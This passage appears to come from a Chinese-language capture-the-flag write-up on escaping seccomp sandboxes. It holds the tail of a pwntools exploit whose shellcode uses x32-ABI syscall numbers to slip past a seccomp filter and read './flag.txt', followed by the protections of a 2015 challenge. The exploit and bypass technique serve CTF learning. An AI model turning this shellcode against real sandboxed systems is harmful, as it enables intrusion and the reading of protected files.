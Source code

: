 ```
	if a == '':
		raw_input()


cn.recvuntil('LOAD PROGRAM\n')

sc = '''
    push 0x1010101 ^ 0x7478
    xor dword ptr [rsp], 0x1010101
    mov rax, 0x742e67616c662f2e
    push rax
	mov rdi, rsp
	xor edx, edx /* 0 */
	xor esi, esi /* 0 */
	mov rax,0x40000002
	syscall

	mov rdi, rax
	sub rsp, 0x1000
	lea rsi, [rsp]
	mov rdx, 0x1000
	mov rax, 0x40000000
	syscall

	mov rdi, 1
	mov rdx, rax
	mov rax, 0x40000001
	syscall

	mov rax, 0x4000003c
	xor rdi, rdi
	syscall
'''
sc = asm(sc)
cn.send(p32(len(sc)))
sleep(0.2)
cn.send(sc)

cn.interactive()
```

- **2015 big prison fence**

Link: https://github.com/yvrctf/2015/blob/master/bigprisonfence/README.md

这次程序的保护为

```

prctl(PR_SET_DUMPABLE, 0, 0, 0, 0);
prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT, 0, 0, 0);
```
